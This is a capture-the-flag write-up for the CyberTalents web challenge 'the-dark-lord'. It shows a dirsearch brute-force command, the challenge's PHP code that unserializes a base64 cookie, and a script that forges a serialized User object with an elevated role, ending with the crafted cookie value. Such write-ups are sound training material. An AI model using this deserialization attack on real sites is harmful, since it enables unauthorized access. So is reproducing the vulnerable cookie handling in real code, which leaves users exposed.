


# Solve the-dark-lord
#### https://cybertalents.com/challenges/web/the-dark-lord


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m7qyz8dru9zwpj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Scan source.php
```php
 <?php

Class User
{
    private $role = "Guest";

    public function GetInfo()
    {
        include("titles.php");

        if($this->role === "Voldemort")
        {
            return $Title_A;
        }
        else
        {
            return $Title_B;
        }
    }

}
?>
<?php
    include("user.php");

    if(isset($_COOKIE["user"]))
    {
        $user = unserialize(base64_decode($_COOKIE["user"]));
    }
    else
    {
        $user = new User();
    }

?>
```
Run the php code to get the user cookie value
```php
<?php

class User
{
    private $role = "Voldemort";

    public function GetInfo()
    {
        include("titles.php");

        if($this->role === "Voldemort")
        {
            return $Title_A;
        }
        else
        {
            return $Title_B;
        }
    }

}

$user = new User();

$value = base64_encode(serialize($user));

echo $value;
```

value : `Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ==`
Which is also equals to `O:4:"User":1:{s:10:"Userrole";s:9:"Voldemort";}`

Add the `user` cookie with it's value 


>Find More on ==> github.com/MedhatHassan 
